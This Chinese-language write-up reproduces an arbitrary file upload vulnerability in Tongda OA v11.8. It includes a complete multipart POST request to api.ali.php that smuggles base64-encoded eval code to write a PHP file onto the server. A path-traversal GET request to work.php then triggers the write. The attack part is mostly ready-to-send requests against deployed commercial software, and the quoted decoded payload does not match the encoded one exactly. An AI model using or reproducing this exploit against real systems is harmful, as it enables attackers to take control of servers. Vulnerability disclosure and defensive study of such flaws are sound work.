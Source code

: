 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏可以上传恶意文件控制服务器

## 漏洞影响

```
通达OA v11.8
```

## 漏洞复现

登陆页面

![image-20220520154337067](./images/202205201543147.png)

向 api.ali.php 发送请求包

```
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

参数a base解码

```
ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==file_put_contents('../../fb6790f4.php','');
```

![image-20220520154357492](./images/202205201543536.png)

再发送GET请求写入文件，页面返回`+OK`

```
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

![image-20220520154429920](./images/202205201544984.png)